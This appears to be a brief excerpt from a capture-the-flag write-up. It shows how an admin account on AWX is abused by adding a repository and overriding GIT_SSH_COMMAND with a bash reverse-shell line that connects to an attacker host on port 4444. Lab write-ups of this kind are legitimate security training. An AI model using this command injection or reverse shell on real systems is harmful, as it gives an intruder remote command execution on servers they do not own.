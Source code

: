 ![AWX](./img/cloud_operator_awx.png)

Being an Admin on AWX, we can add a repo:

```
$ docker run -i --rm -p 2222:22 -v /Users/pierre.gaulon/Downloads/ctf/operator/git/keys:/git-server/keys -v /Users/pierre.gaulon/Downloads/ctf/operator/git/repos:/git-server/repos 
jkarlos/git-server-docker
```

and override the `git clone` command to get a reverse shell:

```
{
  "GIT_SSH_COMMAND": "bash -i >& /dev/tcp/10.10.14.30/4444 0>&1 #"
}
```

![Add repo](./img/cloud_operator_repo.png)
